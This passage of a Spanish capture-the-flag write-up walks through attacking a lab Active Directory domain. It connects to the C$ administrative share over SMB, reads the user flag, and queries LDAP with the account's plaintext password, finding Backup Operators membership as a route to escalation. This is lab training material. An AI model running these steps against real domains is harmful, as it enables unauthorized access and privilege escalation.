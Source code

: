 ```shell
smbclient //SOUPEDECODE.LOCAL/C$ -U zximena448
```

Por lo que vamos a leer la `flag` del usuario:

> user.txt

```
2fe79eb0e02ecd4dd2833cfcbbdb504c
```

## Escalate Privileges

Vamos a ver a que grupo pertenece el usuario `a` con `ldapsearch`:

```shell
ldapsearch -x -H ldap://<IP>/ -D "zximena448@SOUPEDECODE.LOCAL" -w 'internet' -b "dc=SOUPEDECODE,dc=LOCAL" "(sAMAccountName=zximena448)" memberOf
```

Info:

```
# extended LDIF
#
# LDAPv3
# base <dc=SOUPEDECODE,dc=LOCAL> with scope subtree
# filter: (sAMAccountName=zximena448)
# requesting: memberOf 
#

# Zach Ximena, Users, SOUPEDECODE.LOCAL
dn: CN=Zach Ximena,CN=Users,DC=SOUPEDECODE,DC=LOCAL
memberOf: CN=Backup Operators,CN=Builtin,DC=SOUPEDECODE,DC=LOCAL

# search reference
ref: ldap://ForestDnsZones.SOUPEDECODE.LOCAL/DC=ForestDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://DomainDnsZones.SOUPEDECODE.LOCAL/DC=DomainDnsZones,DC=SOUPEDECODE,
 DC=LOCAL

# search reference
ref: ldap://SOUPEDECODE.LOCAL/CN=Configuration,DC=SOUPEDECODE,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
